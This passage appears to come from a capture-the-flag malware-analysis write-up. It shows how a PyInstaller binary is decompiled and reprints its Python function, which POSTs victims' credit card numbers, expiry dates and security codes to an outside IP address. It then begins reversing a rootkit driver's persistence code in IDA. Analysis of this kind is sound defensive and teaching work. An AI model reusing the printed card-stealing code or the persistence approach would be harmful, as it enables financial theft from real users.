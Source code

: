 Therefore we can follow the same steps we did in Qn.2 to get the source code of the binary. Getting the bytecode using `pyinstxtractor` and then using `pylingual` to get the source code.

Analyzing the code, we can find that the function `details` is sending the stolen data to `https://192.22.14.4`. Therefore ip address is `192.22.14.4` and the port is `443`.

```py
def details(cn, ed, sc):
    print(cn.get(), ed.get(), sc.get())
    try:
        requests.get('https://www.google.com', timeout=5)
    except (requests.ConnectionError, requests.Timeout) as exception:
        return None
    else:
        post = {'credit_card_number': cn.get(), 'expiry_date': ed.get(), 'security_code': sc.get()}
        url = 'https://192.22.14.4'
        response = requests.post(url, json=post)
        if response.status_code == 200:
            print('Thank you')
        else:
            print(f'Failed Status code: {response.status_code}')
```


```
Answer Q8) 192.22.14.4:443
```

### Question 9

Q9) What is the file that had to set up persistence and what is the secret string that does through encryption?

Format : filename_md5(file)_md5(decrypted-secret-string)

As we have figured out the dropped files, we can see that the driver/rootkit is the one responsible for setting up the persistence. Let's analyze the file `fJSW4lQS.sys` in ida.

####DriverEntry:
```cpp
NTSTATUS __stdcall DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
  sub_140005000();
  return sub_1400014BC((__int64)DriverObject, RegistryPath);
}
```

the first subroutine is the usual msvc security cookie setup and the second subroutine is the main function which is responsible for setting up the persistence.

After reversing and going through other subrotuine calls, we can come across an interesting function which has this.

```cpp
__int64 sub_140001070()
{
  unsigned __int8 v1; // [rsp+40h] [rbp-1E8h]
  NTSTATUS v2; // [rsp+44h] [rbp-1E4h]
  unsigned int v3; // [rsp+44h] [rbp-1E4h]
  unsigned int i; // [rsp+48h] [rbp-1E0h]
  unsigned int v5; // [rsp+4Ch] [rbp-1DCh]
  void *KeyHandle; // [rsp+50h] [rbp-1D8h] BYREF
  struct _OBJECT_ATTRIBUTES ObjectAttributes; // [rsp+58h] [rbp-1D0h] BYREF
  struct _UNICODE_STRING DestinationString; // [rsp+88h] [rbp-1A0h] BYREF
  struct _UNICODE_STRING ValueName; // [rsp+98h] [rbp-190h] BYREF
  struct _UNICODE_STRING v10; // [rsp+A8h] [rbp-180h] BYREF
  char v11[5]; // [rsp+B8h] [rbp-170h]
  char v12[3]; // [rsp+BDh] [rbp-16Bh] BYREF
  __int16 v13[32]; // [rsp+C0h] [rbp-168h] BYREF
  char Data[64]; // [rsp+100h] [rbp-128h] BYREF
```